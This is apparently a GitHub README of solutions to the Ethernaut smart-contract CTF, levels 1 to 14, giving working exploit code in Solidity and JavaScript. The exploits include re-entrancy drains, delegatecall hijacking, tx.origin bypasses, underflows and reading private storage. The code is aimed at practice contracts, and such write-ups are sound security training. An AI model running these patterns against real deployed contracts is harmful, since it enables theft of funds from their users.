 # ethernaut-ctf-solutions

<details>
    <summary>Level 1 - Fallback</summary>

```javascript
// first need to send some ether to contribute():
await contract.contribute({value: toWei("0.0001")})

// then send some raw ether, the fallback function will make us the owner
sendTransaction({from: player, to: instance, value: toWei("0.0001")})

// are we the owner yet?
await contract.owner() == player

// now that we're the owner, we can siphon the funds
await contract.withdraw()

// and double check that the contract has a balance of 0:
await getBalance(instance)
```

</details>

 <details>
    <summary>Level 2 - Fallout</summary>
    
```javascript
 /* constructor */
  function Fal1out() public payable    // <--- typo makes it not actually a constructor

// so just call this and you're the owner
await contract.Fal1out()
```

</details> 

 <details>
    <summary>Level 3 - Coin flip</summary>

Deploy this guesser contract, using e.g. Remix IDE:

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip instance = CoinFlip(address(...));

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    bool coinFlip = blockValue > FACTOR;
    require(instance.flip(coinFlip));
  }
}
```

Then repeatedly invoke the guess() function, calls will only go through when we know they will succeed in the `CoinFlip` contract.

</details> 

 <details>
    <summary>Level 4 - Telephone</summary>

Deploy this and call `ring_ring()`, we just need a smart contract to act as a buffer so that `msg.sender != tx.origin`. See also [rekt - THORChain](https://rekt.news/thorchain-rekt2/)

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract CallMeMaybe {
    Telephone instance = Telephone(address(...));
    
    function ring_ring() public {
        instance.changeOwner(msg.sender);
    }
}
```

</details> 

 <details>
    <summary>Level 5 - Token</summary>
    
```javascript
// trigger an underflow by transferring >20 tokens to any address
await contract.transfer("0xd4F3ae2100b186D5e8e0E41d7930bE7B3a3e9E6C", 100)
```

</details> 

 <details>
    <summary>Level 6 - Delegation</summary>
    
```javascript
// we want to hit the fallback function of the delegator, and pass it the selector of the pwn() function so that it invokes pwn() on the delegate

contract.sendTransaction({
    to: instance, 
    data: web3.eth.abi.encodeFunctionSignature("pwn()")
})

```

</details> 

 <details>
    <summary>Level 7 - Force</summary>

Relevant chapter in [Mastering Ethereum](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#unexpected-ether)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract TakeMyMoney {
    fallback() external payable {}
    
    function boom(address payable _address) public {
        selfdestruct(_address);
    }
}
```

</details> 

 <details>
    <summary>🏦 Level 8 - Vault</summary>

Find the transaction that was used to create the contract on Etherscan, and look in the state change tab. We can see the value that was stored in the first variable: that's the password, then we just invoke unlock with it:

```javascript
await contract.unlock("0x...")
```

</details> 

 <details>
    <summary>👑 Level 9 - King</summary>

Trying to make this contract the king, it should refuse eth transfers, hence preventing the ownership transfer. Deploy it with 1 ETH, so that it has a starting balance.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;


interface King {
    function _king() external view returns (address payable);
}

contract KingMaker {
    constructor() public payable {}
    
    function kingMe(address kingInstance) public {
        // send ether using a low-level call because send/transfer are limited to 2300 gas
      // send exactly 1 ether, because we need to pass the condition but not exceed the balance of the King contract
        kingInstance.call{value:1 ether}("");
        require(King(kingInstance)._king() == address(this));
    }
    
    function withdraw() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 


 <details>
    <summary>🔁 Level 10 - Re-entrancy</summary>

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface Reentrance {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}

contract Withdrawer {
    Reentrance instance = Reentrance(address(...));
    uint amount = 0.1 ether;
    
    constructor() payable {}
    
    // this is where we trigger the re-entrancy bug
    receive() external payable {
        if (address(instance).balance >= amount)  {
            instance.withdraw(amount);
        }
    }
    
    function pullTheTrigger() public {
        instance.donate{value: amount}(address(this));
        instance.withdraw(amount);
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 


<details>
    <summary>☝️ Level 11 - Elevator</summary>

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface Elevator {
  function goTo(uint _floor) external;
}

contract Building {
    Elevator instance = Elevator(address(...));
    
    bool answer = true;
    
  function isLastFloor(uint) external returns (bool) {
      answer = !answer;
      return answer;
  }
 
  function justDoIt() public {
      instance.goTo(42);
  }
}
```

</details> 

<details>
    <summary>🤫 Level 12 - Privacy</summary>

```javascript
// read where data[2] is stored (in the fifth slot since there is some 
packing of smaller arguments going on):

await web3.eth.getStorageAt(instance, 5)

-> "0x658df6fba159ec7a1e678c38c33e7a77dd541772c97aeed1ad580b033885e238"

// turn that into a bytes16, which means calling unlock with the first half:

await contract.unlock('0x658df6fba159ec7a1e678c38c33e7a77')

```

</details> 

<details>
    <summary>💂‍♂️ Level 13 - Gatekeeper one</summary>

For the key value itself, need to replace the last 2 bytes with the end of the address used to send the transaction.

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface GatekeeperOne {
  function enter(bytes8 _gateKey) external returns(bool);
}

contract Enterer {
    GatekeeperOne instance = GatekeeperOne(address(...));
    event ErrorLog(string reason);

    // getting the gas left just right was difficult, I took some inspiration online to "fuzz" with the for loop
    function pullTheTrigger() public returns(bool) {
        for (uint256 i = 0; i < 120; i++) {
          try instance.enter{gas:i + 150 + 8191 * 3}(0xffffffff0000....) returns(bool result) {
              if (result) {
                  return result;
              }
          } catch Error(string memory reason) {
            emit ErrorLog(reason);
          } catch (bytes memory /*lowLevelData*/) {
            // This is executed in case revert() was used.
            emit ErrorLog("not the right amount of gas");
          }
        }
        return false;
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```

</details> 

<details>
    <summary>🐕 Level 14 - Gatekeeper two</summary>

```solidity
// SPDX-License-Identifier: MIT

// this is important, with newer Solidity versions, 
// `uint64(0) - 1` will fail because it relies on an underflow
pragma solidity ^0.6.0; 

interface GatekeeperTwo {
  function enter(bytes8 _gateKey) external returns(bool);
}

contract Enterer {
    constructor() public {
        uint64 hashedMe = uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
        uint64 key = ~hashedMe;
        uint64 expected = uint64(0) - 1;
        
        require(hashedMe ^ key == expected, "wrong key");
        
        GatekeeperTwo instance = GatekeeperTwo(address(...));
        instance.enter(bytes8(key));
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```

</details> 

